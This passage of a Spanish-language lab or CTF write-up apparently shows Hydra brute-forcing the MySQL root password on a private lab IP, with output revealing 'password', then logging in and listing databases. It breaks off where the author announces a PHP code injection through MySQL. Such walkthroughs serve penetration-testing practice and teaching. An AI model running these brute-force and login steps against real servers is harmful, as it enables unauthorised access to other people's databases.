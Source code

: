 Pero si lo empezamos a investigar no descubrimos mucho mas ni con `steghide`, `binwalk` y `file`...

### Hydra

```shell
hydra -l root -P <WORDLIST> mysql://<IP>/ -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-03 06:05:25
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.195.148:3306/
[3306][mysql] host: 192.168.195.148   login: root   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-03 06:05:29
```

> Credentials `root`

```shell
#mysql
User = root
Password = password
```

### MySQL

```shell
mysql -h <IP> -u root -ppassword
```

Con esto ya estariamos dentro de `mysql`...

```mysql
show databases;
```

Info:

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```

Por lo que vemos no hay ninguna base de datos creada por el usuario, por lo que haremos alguna injeccion de codigo de `mysql` con `php` de la siguiente manera...
